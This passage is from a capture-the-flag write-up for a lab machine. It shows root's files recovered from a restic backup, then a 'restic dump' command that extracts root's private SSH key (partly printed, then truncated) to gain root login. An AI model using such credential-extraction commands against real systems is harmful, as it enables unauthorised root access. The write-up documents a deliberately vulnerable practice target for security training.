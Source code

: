 ```bash
/root/.selected_editor
/root/.ssh
/root/.ssh/authorized_keys
/root/.ssh/id_rsa
/root/.ssh/id_rsa.pub
/root/config.yml
/root/cron.sh
/root/root.txt
```

From here, we can dump the private SSH key of the `root` user.

```bash
$ restic -r . dump latest /root/.ssh/id_rsa
enter password for repository: 
repository 6ad1468c opened (repository version 1) successfully, password is correct
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAmiGiXpswTyHhjgC55jHRWlGX1asEMyDFfkVwhuNohv/4cQKm
<TRUNCATED>
```

Then we can SSH in as `root`.

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

Cool machine. Really good despite being like 3 years old.
